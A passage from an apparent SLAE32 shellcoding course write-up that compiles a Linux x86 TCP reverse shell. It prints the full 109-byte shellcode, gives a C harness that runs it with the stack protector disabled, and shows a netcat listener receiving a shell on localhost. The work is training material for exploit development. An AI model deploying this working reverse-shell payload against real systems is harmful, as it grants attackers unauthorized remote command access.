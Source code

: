 Compiling and testing the NASM generated ELF file
```
slemire@slae:~/slae32/assignment2$ ../compile.sh shell_tcp_reverse
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\x80\xff\xff\xfe\xbb\xff\xff\xff\xff\x31\xd8\x52\x52\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
[+] Length: 109
[+] Done!

slemire@slae:~/slae32/assignment2$ file shell_tcp_reverse
shell_tcp_reverse: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

slemire@slae:~/slae32/assignment2$ ./shell_tcp_reverse
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52204)
whoami
slemire
```

The shellcode is then tested with the skeleton program:
```c
#include <stdio.h>

char shellcode[]="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\x80\xff\xff\xfe\xbb\xff\xff\xff\xff\x31\xd8\x52\x52\x50\x66\x68\x11\x5c\x66
\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x
2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    printf("Size: %d bytes.\n", sizeof(shellcode));
    ret();
}
```

Compiling and testing the shellcode:
```
slemire@slae:~/slae32/assignment2$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment2$ ./shellcode
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52212)
whoami
slemire
```
